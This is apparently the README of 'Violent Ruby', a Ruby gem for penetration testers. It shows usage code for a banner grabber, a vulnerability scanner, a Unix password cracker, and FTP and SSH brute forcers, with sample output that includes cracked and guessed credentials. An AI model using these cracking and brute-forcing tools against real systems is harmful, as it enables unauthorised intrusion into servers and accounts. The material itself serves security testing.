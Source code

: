 # Violent Ruby 🎻

Violent Ruby is a collection of tools for Hackers, Forensic Analysts, Penetration Testers and Security Engineers.

#### Development Notice

⚠️  Gem is still in development.

## Installation

    $ gem install violent_ruby

## Usage

```ruby
require 'violent_ruby'
```

### Banner Grabber

The banner grabber provides a simple interface to do a banner grab.

```ruby
require 'violent_ruby'

banner_grabber = ViolentRuby::BannerGrabber.new(ip: 'localhost', port: 2222)

banner_grabber.grab do |result|
  # do something with result
end
# => [{:ip=>"127.0.0.1", :port=>"2222", :open=>true, :banner=>"SSH-1.0-OpenSSH_2.3lol\r\n"}]

banner_grabber.ips   = "192.30.253.113" 
banner_grabber.ports = ["80", "443"]

banner_grabber.grab(http: true, timeout: 0.08) do |result|
  # do something with result
end
# => [{:ip=>"192.30.253.113", :port=>"80", :open=>true, :banner=>"HTTP/1.1 301 Moved Permanently\r\n" + "Content-length: 0\r\n" + "Location: https://3.1.3.3.7/\r\n" + "Connection: close\r\n" + "\r\n"}, {:ip=>"192.30.253.113", :port=>"443", :open=>true}]
```

### Vulnerability Scanner

The vulnerability scanner is a banner grabber that can check banners on ports and check if they're known to be vulnerable. However, you will need to provide the list of known vulnerable banners yourself.

```ruby
require 'violent_ruby'

scanner = ViolentRuby::VulnerabilityScanner.new

scanner.targets = "127.0.0.1"
scanner.known_vulnerabilities = "MS-IIS WEB SERVER 5.0"

scanner.scan(ports: 80, 8080) do |result|
  # do something with result
end
# => [{:ip=>"127.0.0.1", :port=>8080, :banner=>"MS-IIS WEB SERVER 5.0"}]
```

### Unix Password Cracker

The unix password cracker provide a simple interface to crack unix passwords. As hackers do.

```ruby
require 'violent_ruby'

password_cracker = ViolentRuby::UnixPasswordCracker.new

password_cracker.file = "resources/etc_passwd_file"
password_cracker.dictionary = "resources/dictionary.txt"

password_cracker.crack!
# => [{:username=>"victim", :encrypted_password=>"HX9LLTdc/jiDE", :plaintext_password=>"egg"}]
```

### FTP Brute Forcer

The ftp brute forcer can be used to to brute force your way into a server over FTP.

```ruby
require 'violent_ruby'

ftp = FtpBruteForcer.new

ftp.users     = "resources/ftp_users.txt"
ftp.ports     = "resources/ftp_ports.txt"
ftp.ips       = "resources/ftp_ips.txt"
ftp.passwords = "resources/ftp_passwords.txt"

ftp.brute_force!
# => [{:time=>2017-04-03 19:02:11 -0400, :type=>"SUCCESS", :ip=>"192.168.33.10", :port=>"21", :user=>"vagrant", :password=>"vagrant"},
# {:time=>2017-04-03 19:02:15 -0400, :type=>"FAILURE", :ip=>"192.168.33.10", :port=>"21", :user=>"vagrant", :password=>"ftp"},
# {:time=>2017-04-03 19:02:18 -0400, :type=>"FAILURE", :ip=>"192.168.33.10", :port=>"21", :user=>"vagrant", :password=>"root"}]
```

### SSH Brute Forcer

The ssh brute forcer can be used to to brute force your way into a server over SSH.

```ruby
require 'violent_ruby'

ssh = SSHBruteForcer.new

ssh.users     = "resources/ssh_users.txt"
ssh.ports     = "resources/ssh_ports.txt"
ssh.ips       = "resources/ssh_ips.txt"
ssh.passwords = "resources/ssh_passwords.txt"

ssh.brute_force do |result|
  result
  # => [{:time=>2017-04-03 19:02:11 -0400, :type=>"SUCCESS", :ip=>"192.168.33.10", :port=>"22", :user=>"vagrant", :password=>"vagrant"},
end
```
### Violent Ruby Shell

The `Violent Ruby` shell provides quick access to all of Violent Ruby in a custom Pry shell.

This is provided via a file called `python_sucks` when the gem is installed.

```ruby
$ python_sucks
🎻 (main)> scanner = VulnerabilityScanner.new
=> #<ViolentRuby::VulnerabilityScanner:0x007fc9531aab20 @known_vulnerabilities=[], @targets=[]>
🎻 (main)> scanner.targets = "127.0.0.1"
=> "127.0.0.1"
scanner.known_vulnerabilities = "MS-IIS WEB SERVER 5.0"
=> "MS-IIS WEB SERVER 5.0"
scanner.scan(ports: 80, 8080)
=> [{:ip=>"127.0.0.1", :port=>8080, :banner=>"MS-IIS WEB SERVER 5.0"}]
🎻 (main)> 
🎻 (main)> 
🎻 (main)> show-method scanner.retrieve_banner
From: /path_to_where_this_is/violent_ruby/lib/violent_ruby/vulnerability_scanner/vulnerability_scanner.rb @ line 107:
Owner: ViolentRuby::VulnerabilityScanner
Visibility: public
Number of lines: 14

def retrieve_banner(ip, port, seconds = 2)
  banner = false
  Timeout.timeout(seconds) do 
    socket = TCPSocket.new(ip, port)
    banner = socket.recv(1024)
    socket.close
  end
  return false unless banner
  banner.strip!
  yield banner if block_given?
  banner
rescue
  false
end     
🎻 (main)> help
🎻 (main)> exit
```

## License

The gem is available as open source under the terms of the [MIT License](http://opensource.org/licenses/MIT).

